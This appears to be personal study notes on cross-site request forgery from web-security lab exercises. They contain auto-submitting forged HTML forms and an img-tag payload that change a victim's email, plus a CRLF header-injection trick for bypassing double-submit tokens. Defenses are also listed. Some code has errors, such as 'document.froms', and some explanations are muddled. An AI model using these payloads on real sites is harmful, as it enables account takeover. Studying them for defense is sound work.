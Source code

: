 Means - cross site request forgery.

This vulnerability allows the attacker to perform actions that the users did not intend to perform.
As the name suggests cross-site meaning interaction between two sites is possible when attacker circumvents same origin policy.

That is a flag you sometimes see when inspecting http requests in network traffic for web apps.
For example something like this `Referrer Policy - strict-origin-when-cross-origin` and all else.

The example of an attack could be tampering with the url and requesting actions with parameters that are vulnerable.
Consequences of this vulnerability can be for example, account takeover via email change/ password change and in worst scenario when admin account is compromised to take full control of the said web app.


#### This attack is only possible if these conditions are met:

- A relevant action - a goal in mind that this vuln can achieve - like the examples before - psw change etc..
- Cookie session handling - If there are no other mechanisms in place that identify the user who sent the request - if only the cookie is an identifier.
- No unpredictable request parameters - In short - if you need a piece of information to perform an attack that is not available to you, then it's not really vulnerable (at least for impact).


So an example of a function that meets the conditions of being vulnerable to CSRF.
To make that action user makes a http request like this...

```http
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

We got:
- A relevant action - email that is connected to an account.
- Cookie session handling - the cookie is the only identifier of the request sender.
- No unpredictable request params - only the email is a request parameter - in this case we choose a new email to attach to the account (i think).


When we determine this, we can construct a web page with the following contents:
```html
<html>
<body>
<form action="https://vulnerable-website.com/email/change" method="POST">
<input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

If a victim visits the attackers web page this is what happens:
- The attackers page will trigger an http request to the vulnerable site.
- If the user is already logged in to the vulnerable site the browser will automatically fill in the cookie in the request (if SameSite cookies are used).
- The vulnerable site will process the request as usual as if the proxy attacker page doesn't even exist and change the email of the account.

Now if the user can authenticate without action along side the cookie such as basic HTTP auth and cert based auth.
The site is still vulnerable because that data is passed alongside cookie without user interaction.

#### Practical lab

The lab had a app vulnerable to the CSRF of course and the solution was to utilize discussed forged html which contains url for email change to the vulnerable web app with correct http method and our attacker email as a payload, which is all send after we deploy this html on our server and user visits the web page, then the email is updated to our email.

Note.
If the app is vulnerable to csrf and it's possible to change email via GET request you don't need to setup an malicious  proxy server with html, the exploit will work with just a tampered url, exactly the same how a reflected XSS can be stored in url.
`<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">` 

####  Defense against CSRF

- CSRF Token - is a unique value, generated by the server and shared with the client - when performing a sensitive task the client must include the CSRF token. 
- SameSite cookies - Is a browser feature that stops requests with cookies that originate from other sites. 
- Referer-based validation - This is an http header `Referer`, which verifies that the request originates from the applications own domain, less effective than csrf token.

**Csrf tokens can be included in the malicious html**
```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
<label>Email</label>
<input required type="email" name="email" value="example@normal-website.com"> 
<input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
<button class='button' type='submit'> Update email </button>
</form>
```

After submitting this form the following request is sent.
```http
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

CSRF tokens don't have to be sent in a POST request some applications place tokens in http headers.
The way in which the token is sent impacts the security of it.

#### Flaws in CSRF Tokens

- Some applications validate the token when request uses `POST` method but fail to do so with `GET` method.
**LAB** - Exploit the flawed CSRF token validation by using a different http request method.

- In some cases token validation fails if the token is omitted, in this situation the attacker removes the entire parameter, not just the value.
**LAB** - Exploit the flawed CSRF token validation by omitting the token parameter.

- Token is not tied to user session - tokens are compared to the pool of all tokens and the attacker uses their own token when attacking others account.
- Additionally this can be abused across the domain by setting cookies on a different part of the domain - that is if the cookie scope encapsulates it.
**LAB** - Make your own CSRF token and utilize it to change email of other account.

- Token is tied to a non session cookie - this can happen when app uses different frameworks for sessions and CSRF protection.
**LAB** - Getting 504 err, but I think we utilize...

- Token is duplicated in a cookie - in this case attacker only has to invent a token that is in somewhat correct format - actual token is passed in a cookie.
**LAB** - Getting 504 err, but I think we utilize.


```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

**LAB** - change email address of victim bypass double submit defense. Token is duplicated in cookie.
Utilize a search parameter to inject a http header.
And using exploit server change the password.
The only thing that matters is that the CSRF token and CSRF cookie match.

The http header injection happens because the http request is dynamically generated with parameters from the URL request.

```http
GET /?search=test%0d%0aMyHeader:%20MyValue HTTP/1.1
```

This is an example of http header injection.
We have newline after "test" and space, those are the URL encoded characters.
Using this header injection we can set the cookie value of the CSRF token to something simple.
And the reuse that CSRF token value for the body of the request.

```html
<html>
	<body>
	<script>history.pushState('','','/')</script>
		<form action="change_email_url" method="POST">
		<input type="hidden" name="email" value="test3&#64;test&#46;ca" />
		<input type="hidden" name="csrf" value="test" />
		<input type="submit" value="Submit request" />
		<img src="url_with_http_header_injection" onerror="document.froms[0].submit()">
	</body>
</html>
```

```html
<html>
	<body>
	<script>history.pushState('','','/')</script>
		<form action="https://0af000340469358a8115664d00d600ad.web-security-academy.net/my-account/change-email" method="POST">
		<input type="hidden" name="email" value="test3&#64;test&#46;ca" />
		<input type="hidden" name="csrf" value="test" />
		<input type="submit" value="Submit request" />
		<img src="https://0af000340469358a8115664d00d600ad.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf-test" onerror="document.froms[0].submit()">
	</body>
</html>
```

test